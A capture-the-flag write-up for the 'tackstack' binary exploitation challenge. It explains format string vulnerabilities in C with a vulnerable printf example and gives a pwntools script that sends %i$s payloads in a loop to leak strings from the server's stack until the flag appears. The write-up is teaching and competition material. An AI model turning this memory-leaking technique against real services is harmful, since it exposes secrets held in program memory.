 # tackstack

## TL;DR
 Exploit format string vuln, by dumping all strings from memory with the `%i$s`, for i in range(1,100).

## Background
The challenge was in the binary exploitation category, gave 100 points and had the following description:
```
Have you ever played Jenga? Tack Stack is like that game, but with tacks!

Connect with:
nc jh2i.com 50038
```

When connection to the server, there is a prompt, asking for data.
```
========================
|       TACKSTACK      |
========================


Welcome to TackStack!
How to play:
  * Stack your tacks!
Ready? Go!

Your tack:
```
When entering data, it was echoed back by the server. The first thing I checked, was if there is a format string vulnerability.

Thus I tested my hypothesis:
```
Your tack: %x%x
------------------------
|                      |
    4030bef273b780
|                      |
------------------------
```
We see that we get some values from the stack.

A format string vulnerability occurs in C, when the program prints a user-controlled buffer without the right formatting. E.g.:

```C

char str1[20];

printf("Gimme data: ");
scanf("%s", str1);

//Correct/safe way:
printf("%s\n", str1);

//False/vulnerable way:
printf(str1);

```

When there are format string parameters in the first argument of `printf` it pops arguments from the stack and displays them.


## Exploiting the Service

We can use this to dump all the strings from the program memory, starting from the stack by using the %s format string.

To print the i^th string on the stack, we can use the following format string: `%i$s`.
Now we just need to loop for n in [1..100] to and grep the flag.
Thus a little python script which does exactly this.


```python
from pwn import *

ret = ""
for i in range(1,100):
  #start remote connection
	p = remote("jh2i.com", 50038)
  #read from connection
	ret = p.recvuntil("tack: ")
  #send format string
	p.sendline("%"+str(i)+"$s")
  #check if crashed, and read the output
	try:
		ret = p.recvuntil("tack: ")
	except:
		print("crashed")
  # If we got the flag, print it and break the loop
	if("LLS{" in ret):
		print(ret)
		break
  #else close connection and restart the loop
	p.close()
```

Just wait a few iterations, and there we go, we get our flag:

```
Your tack:
------------------------
|                      |
    FLAG=LLS{tack_stack?_more_like_stack_attack}
|                      |
------------------------
```
